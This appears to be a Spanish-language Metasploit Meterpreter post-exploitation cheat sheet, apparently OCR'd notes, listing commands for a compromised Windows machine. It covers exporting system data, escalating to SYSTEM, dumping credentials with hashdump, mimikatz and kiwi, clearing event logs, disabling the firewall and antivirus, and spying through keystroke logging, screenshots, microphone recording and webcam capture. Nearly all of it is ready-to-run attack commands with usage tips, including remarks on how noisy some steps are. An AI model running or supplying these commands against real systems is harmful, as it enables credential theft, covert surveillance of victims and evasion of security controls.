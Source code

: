 ```bash
run scraper #  exportar información del sistema
run winenum # lo mismo con mas datos
~/.msf4/logs/scripts/scraper
```

> estos dos comandos exportan datos a la máquina local, por lo tanto hacen mucho ruido



#### Elevar privilegios

```bash
getuid # ver privilegios actuales
getsystem -h
getsystem # levar privilegios a system
getuid
rev2self  # volver a privilegios anteriores

hashdump # ver credenciales usuarios, equivale a /etc/passwd
```

Para que metasploit pese menos, no carga todas las librerías por defecto. Podemos cargar las opcionales a medida que las necesitamos.

```bash
use mimikatz # cargar libreria mimikatz
wdigest	# ver credenciales

use kiwi # cargar libreria kiwi 
creds_all # ver credenciales
```



#### Eliminar rastros y sistemas de seguridad

```bash
clearev  # borrar visor de eventos

shell # acceder a la shell del sistema
# desactivar firewall
netsh show opmode
netsh firewall set opmode mode = disable profiles = all

run killav #desactivar antivirus
```



#### Espionaje

```bash
keyscan_start # espiar movimiento de teclado
keyscan_dump  # exportar movimientos
keyscan_stop

screenshot  # extraer sccreenshot del sistema 
run vnc	# abrir ventana vnc

record_mic 10	# grabar micro 10 segundos
webcam_list
webcam_snap 1	# extraer foto de camara 1
webcam_stream 	# extraer video en directo
webcam_chat		# abrir chat
```
